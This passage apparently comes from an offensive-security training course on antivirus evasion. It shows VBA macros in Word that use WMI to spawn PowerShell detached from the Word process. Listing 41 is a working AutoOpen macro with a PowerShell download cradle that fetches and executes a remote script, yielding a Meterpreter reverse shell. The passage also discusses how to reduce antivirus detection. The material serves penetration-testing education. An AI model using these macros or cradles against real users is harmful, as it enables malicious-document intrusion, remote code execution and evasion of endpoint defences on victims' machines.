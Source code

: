 We can invoke the entire WMI process creation call as a one-liner from VBA as shown in Listing 40.

```
Sub MyMacro
  strArg = "powershell"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```

> Listing 40 - Creating a PowerShell process with WMI

The _Create_ method accepts four arguments. The first is the name of the process including its arguments, the second and third describe process creation information that we do not need, and the fourth is a variable that will contain the process ID of the new process returned by the operating system.

When the macro is executed, a new PowerShell prompt opens and Process Explorer reveals that PowerShell is indeed running as a child process of WmiPrvSE.exe and not Microsoft Word (Figure 32).

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/avi/6be0949ac42e8a9f623fc53202859fac-avi_wmi_basic.png" alt="Figure 32: PowerShell process as child process of WmiPrvSE.exe"><figcaption><p>Figure 32: PowerShell process as child process of WmiPrvSE.exe</p></figcaption></figure>

This could certainly work for our purposes, however PowerShell is running as a 64-bit process, which means we must update the PowerShell shellcode runner script accordingly.

We can update the PowerShell argument for the _Create_ method to include the entire download cradle as shown in Listing 41.

```
Sub MyMacro
  strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```

> Listing 41 - PowerShell shellcode runner de-chained from Microsoft Word

When we run the embedded VBA, the Meterpreter reverse shell executes as expected and it is completely de-chained from Microsoft Word. Let's scan the updated document with AntiScan.Me:

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/avi/4137fde1ff8d692f117c64bb03996b87-avi_wmi_dechained1.png" alt="Figure 33: Detection rates of de-chained PowerShell shellcode runner"><figcaption><p>Figure 33: Detection rates of de-chained PowerShell shellcode runner</p></figcaption></figure>

Since seven products flag our code, it would seem that our efforts have had little impact. This is not necessarily surprising since the VBA macro still contains the same unobfuscated PowerShell download cradle as before.

However, this was an important step since our new VBA macro does not use the _Shell_ function but rather the ambiguous _GetObject_, _Get_, and _Create_ methods, which are more benign to most AV products.
